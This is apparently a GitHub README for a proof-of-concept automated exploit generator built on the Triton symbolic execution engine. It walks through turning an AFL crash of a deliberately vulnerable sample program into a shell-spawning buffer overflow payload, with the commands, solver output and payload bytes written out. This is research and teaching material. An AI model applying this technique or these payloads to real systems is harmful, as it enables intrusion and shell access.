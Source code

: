 Wasabi AEG
====

This is yet another implementation of AEG (Automated Exploit Generation) using symbolic execution engine Triton, and just proof of concept.

This project is inspired by following researches.

* [AEG (Automatic Exploit Generation)](http://security.ece.cmu.edu/aeg/)
* [Driller](https://github.com/shellphish/driller)


Presentations
-----
* TODO: [Girls Meets Symbolic Execution: Assertion 2. Automated Exploit Generation]() (at 第14回カーネル／VM探検隊) [Japanese]


Requirements
-----
* [Triton](https://github.com/JonathanSalwan/Triton) and [Pin tracer](https://triton.quarkslab.com/documentation/doxygen/index.html#libpintool_install_sec)
    * **NOTE**: My Triton build number is 1380 (v 0.6). Triton's API is volatile. So you may need some patches for solver script in the future.
* [lief](https://lief.quarkslab.com/)
* Python2


Build
----
You must build sample vulnerable programs.

```
cd vuln-samples
make
cd -
```


Demo
-----
Demo applicaitons are located in `vuln-samples`.

### notes
**:tada: Demo video (asciinema) :camera: is avaliable [here](https://asciinema.org/a/oex5uONOiUy5lNb41fgBQALtb)!**

`notes` has buffer overflow bug, and shellcode as `instant_win()` function.

We can obtain crash input using AFL and feed it into `notes`.
We found that `notes` crashes at address `0x7ffff7a8c231`.

```
K_atc% xxd vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad adad  ..f........"....
00000040: adad ad9d adad adad 0d51 0a73 0a75 0a33  .........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a63  .nle.(..o.!! ..c
00000060: 6e6e 6e6e 6e81 e16e 6e6e 6e6e 7e6e 6e6f  nnnnn..nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q
```

```
gdb-peda$ r < result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32

[----------------------------------registers-----------------------------------]
... snipped ...
RBP: 0xadad9dadadadadad 
... snipped ...
[-------------------------------------code-------------------------------------]
... snipped ...
=> 0x7ffff7a8c231 <__GI__IO_getline_info+193>:  mov    BYTE PTR [rbp+0x0],al
... snipped ...
Stopped reason: SIGBUS
0x00007ffff7a8c231 in __GI__IO_getline_info () from /usr/lib/libc.so.6
```

Generate exploit payload in the following manner.

```
K_atc% export CRASHED_AT=0x7ffff7a8c231

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes.py vuln-samples/notes < vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
... snipped ...
[TT] Solving Memory Access constriant...
[TT] Model for Memory Access: {64L: SymVar_64 = 0x60, 65L: SymVar_65 = 0x0, 66L: SymVar_66 = 0x0, 67L: SymVar_67 = 0x0, 68L: SymVar_68 = 0x0, 69L: SymVar_69 = 0x0, 95L: SymVar_95 = 0x10, 62L: SymVar_62 = 0xD8, 63L: SymVar_63 = 0x30}
~~~~~~~~
Found exploitable crash:  'n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\nu\x009:n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\xf5\xf5\xf5\xf5\xf5\n\xf8\x00n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xd80`\x00\x00\x00\x00\x00\xf5\xf5\xf5\xf5\n\xf5\nu\x001:\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\x10'
Crash inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10'
[TT] Reading remaining stdin...
    read stdin = ''nnnnn\x81\xe1nnnnn~nnon!\xff\x00s\nq''
[TT] crash input is saved as 'crash_inputs'
[TT] Go on to phase 2
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  106.72s user 5.79s system 99% cpu 1:53.21 total

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes-phase-2.py vuln-samples/notes < crash_inputs
... snipped ...
~~~~~~~~
[TT] Automated Exploit Generation Done. Saving payload as 'exploit-payload'
[TT] Model for Memory Access: {96L: SymVar_96 = 0x12, 97L: SymVar_97 = 0x40, 98L: SymVar_98 = 0x0, 99L: SymVar_99 = 0x0, 100L: SymVar_100 = 0x0, 101L: SymVar_101 = 0x0, 102L: SymVar_102 = 0x0, 95L: SymVar_95 = 0x10}
Crash Inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10\x12@\x00\x00\x00\x00\x00nnnnn~nnon!\xff\x00s\nq'
To test payload: `(cat exploit-payload -) | ./vuln-samples/notes`
[TT] End
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  69.77s user 6.09s system 99% cpu 1:16.34 total
```

Finally, we got exploit payload to spawn shell which works fine!

```
K_atc% xxd exploit-payload 
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad d830  ..f........"...0
00000040: 6000 0000 0000 adad 0d51 0a73 0a75 0a33  `........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a10  .nle.(..o.!! ...
00000060: 1240 0000 0000 006e 6e6e 6e6e 7e6e 6e6f  .@.....nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q

K_atc% (cat exploit-payload -) | ./vuln-samples/notes
Exploit Me!!

---- [menu] ----

==== [note #3] ====
title: content: Congratz![Enter]
uname -a
Linux K_atc 4.17.2-1-ARCH #1 SMP PREEMPT Sat Jun 16 11:08:59 UTC 2018 x86_64 GNU/Linux
whoami
katc
```